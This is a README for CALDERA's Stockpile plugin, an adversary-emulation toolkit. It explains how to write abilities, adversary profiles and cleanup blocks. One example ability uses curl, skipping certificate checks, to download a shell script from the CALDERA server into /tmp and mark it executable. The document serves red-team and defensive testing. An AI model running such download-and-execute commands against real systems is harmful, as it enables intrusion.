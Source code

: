 # CALDERA plugin: Stockpile

This plugin contains:

* A collection of abilities
* Pre-built adversary profiles
* Payloads associated to abilities
* A basic planner 

## Abilities

You can quickly add your own abilities and adversaries to the stockpile, both of which are reloaded every time
the core server reboots. Stockpile abilities are located in the abilities/ directory.

To add new ones, add a .yml file in the abilities directory, named after a unique ID (UUID-4 is our standard). 
This file should include an ID, name, description, ATT&CK tactic and command.

Below is an example ability. Read this carefully, it will be referenced later on.
```
- id: e9bcdf0d-be08-4aec-bf1e-e73655403d55
  name: Download WIFI tools
  description: Download a set of commands for manipulating WIFI
  tactic: discovery
  technique:
    attack_id: T1016
    name: System Network Configuration Discovery
  platforms:
    darwin:
      command: |
        curl -sk -X POST -H 'file:wifi.sh' #{server}/file/download > /tmp/wifi.sh &&
        chmod +x /tmp/wifi.sh
      cleanup:
        rm /tmp/wifi.sh
```

### Ability variables

As you write abilities, note that there are two global variables available, server and group, which 
can be used inside an ability command.

A variable is referenced with the syntax #{variable}.

* Server / #{server}: The location of CALDERA. Because each agent may have a different reference point
for where CALDERA is (IP, FQDN, etc), if an ability wants to reference CALDERA it should use #{server}. 
* Group / #{group}: The group used in the active operation.

In the ability example above, note the usage of the #{server} variable.

The group variable is a bit more advanced. This is useful primarily for lateral movement abilities where
the agent may move itself to a new host. 

### Download files from CALDERA to an agent

In the ability example, note the command downloading the wifi.sh file from CALDERA. It does this by sending a
POST request to the API endpoint /file/download, including the requested filename as a header.

The /file/download endpoint will look inside the payloads directory.

### Cleanup

Abilities can optionally include a cleanup block, which will execute automatically at the end of an operation. The
cleanup should be used in instances you want to reverse a mutable action, such as stopping a started process. In
the ability example above, note how the cleanup block is written. Cleanup actions will occur in reverse order
of the abilities that ran.

## Adversaries

New adversaries can be added to the adversaries.yml file.

## Planners

A basic planner, called sequential, runs all abilities on an adversary against all hosts in a group
